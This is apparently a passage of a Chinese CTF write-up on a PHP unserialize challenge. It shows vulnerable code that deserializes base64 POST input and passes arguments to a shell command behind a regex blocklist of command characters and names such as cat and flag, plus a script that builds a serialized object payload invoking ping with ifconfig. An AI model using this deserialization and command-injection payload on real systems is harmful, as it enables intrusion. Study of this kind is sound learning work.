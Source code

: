 ```php
        //exec(string $command（要执行的完整 shell 命令（字符串））, array &$output = null（引用传参，用来接收命令输出的每一行）, int &$result_code = null（引用传参，用来接收命令的退出码）): string|false
        var_dump($result);//用于输出变量的详细信息，包括值和类型等
    }
 
    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
            //preg_match_all()：用于执行一个全局正则表达式匹配，一次性把所有符合正则的内容全部抓出来
            /*
            preg_match_all(
  			  	string  $pattern,      // 正则表达式，必须带定界符，如 /.../
				string  $subject,      // 要搜索的字符串
  				  array  &$matches = [], // 引用，用来存放结果
  				  int     $flags   = 0,  // 控制结果格式
   				 int     $offset  = 0   // 从第几个字节开始搜
				): int|false
*/
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){//unserialize()会检查是否存在一个__wakeup()方法。如果存在，则会先调用__wakeup()方法，预先准备对象需要的资源。
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
 
$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
?>
```

看到unserialize()就知道考的是反序列化

源代码执行顺序：

1. 以POST方式提交ctf
2. 对提交的值进行base64解码
3. 进行反序列化
4. 然后执行__wakeup()函数
5. 执行析构函数_destruct()

```php
<?php
class ease{
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
}
 
$o=new ease("ping",array("ifconfig"));
$s = serialize($o);//生成一段内部表示的字符串，类似：
//O:4:"ease":2:{s:12:"easemethod";s:4:"ping";s:10:"easeargs";a:1:{i:0;s:7:"ifconfig";}}
echo base64_encode($s);
?>
```
